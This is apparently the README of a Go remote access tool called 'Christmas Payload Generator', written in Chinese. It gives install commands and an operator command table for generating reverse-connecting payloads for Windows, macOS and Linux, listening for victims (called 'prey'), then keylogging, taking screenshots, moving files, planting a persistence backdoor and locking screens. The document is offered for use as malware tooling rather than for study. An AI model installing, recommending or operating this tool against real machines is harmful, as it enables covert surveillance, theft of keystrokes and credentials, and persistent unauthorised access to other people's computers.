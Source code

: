<p align="center">
  <img src="https://github.com/CooChristmas/Christmas/blob/master/content/logo.png">
</p>

<h1 align="center">Christmas Payload Generator</h1>
<p align="center">
  <a href="https://golang.org/">
    <img src="https://img.shields.io/badge/Golang-1.11-blue.svg">
  </a>
  <a href="https://github.com/CooChristmas/Christmas/blob/master/LICENSE">
    <img src="https://img.shields.io/badge/License-BSD%203-lightgrey.svg">
  </a>
  <a href="https://github.com/CooChristmas/Christmas/blob/master/main.go">
    <img src="https://img.shields.io/badge/Release-3.0-red.svg">
  </a>
    <a href="https://opensource.org">
    <img src="https://img.shields.io/badge/Open%20Source-%E2%9D%A4-brightgreen.svg">
  </a>
</p>

<p align="center">
  Christmas可以生成有效负载并控制远程操作系统的Poc。
</p>

## 如何安装
```bash
$ go get github.com/CooChristmas/Christmas
$ go get github.com/kbinani/screenshot
$ go get github.com/lxn/win
$ go get github.com/matishsiao/goInfo
$ go get golang.org/x/sys/windows
$ cd ~/go/src/github.com/CooChristmas/Christmas
$ go run main.go
```

## 如何使用

命令    | 参数及介绍
:-----      |:-----
`generate`  |生成负载 (```e.g```. `generate lhost=192.168.0.100 lport=8080 fname=chaos --windows`)
`lhost=`    |指定猎物ip
`lport=`    |指定猎物端口
`fname=`    |指定输出文件
`--windows` |猎物系统为``` Windows```
`--macos`   |猎物系统为 ```Mac OS```
`--linux`   |猎物系统为 ```Linux```
`listen`    |从猎物的另一个端口监听 (```e.g```. `listen lport=8080`)
`serve`     |服务文件
`exit`      |退出

命令    | 参数及介绍
:-----                  |:-----
`download`              |下载文件
`upload`                |上传文件
`screenshot`            |截屏
`keylogger_start`       |键盘记录
`keylogger_show`        |输出键盘记录内容
`persistence_enable`    |维持访问之插后门
`persistence_disable`   |移除后门
`getos`                 |获取系统名称
`lockscreen`            |锁定猎物屏幕
`openurl`               |打开通知的```URL```
`bomb`                  |鱼叉炸弹
`clear`                 |清屏
`back`                  |挂起会话
`exit`                  |关闭会话
